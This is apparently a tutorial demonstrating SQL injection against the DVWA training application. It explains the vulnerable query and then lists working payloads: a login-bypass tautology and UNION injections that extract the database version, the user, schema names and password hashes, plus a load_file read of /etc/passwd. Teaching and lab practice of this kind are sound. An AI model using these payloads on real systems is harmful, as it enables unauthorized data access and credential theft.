









# SQL Injection

This type of attacks consists in using SQL commands that can be sent through different entry points in the web application, which can manipulate the business and data logic of the application to gain access to more information, bypass access controls, among others.

So let's use the DVWA page here to test this type of vulnerability.

 
In this form when we enter a number, it shows a record.
 

Which leads us to assume that the SQL query that is being used to display this information (which can be confirmed with the View Source) is something like:

    "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

In this case:

    SELECT first_name, last_name FROM users WHERE user_id = '1'

Where there are parameters to be directly passed to the SQL query. As such, we can always try passing additional SQL commands so that we can see the results we get. Let's look at different SQL payloads and see their results.

    ' or ''='
 

This payload modifies the SQL query to the following:

    SELECT first_name, last_name FROM users WHERE user_id = ‘a’ OR ‘’=’’

Resulting in a leak of information like the one we can see below.
 

The next injection will result in displaying the version of the MySQL database server.

    ' union select 1,@@version#
 

The next injection will display the username of the user connected to the database server.

    ' union all select system_user(),user() #
 

The next SQL injection will display the list of tables on the database.

    ' union select null,schema_name from information_schema.schemata #
 

The next injection will display the first name of the user and the password.

    ' union select null,concat(first_name,0x0a,password) from users #
 

The next injection will display the contents of a file inside the system.

    ' union all select load_file('/etc/passwd'),null #
 

As it was possible to verify, there are several ways, directly in the web application, and without using any kind of additional tool.
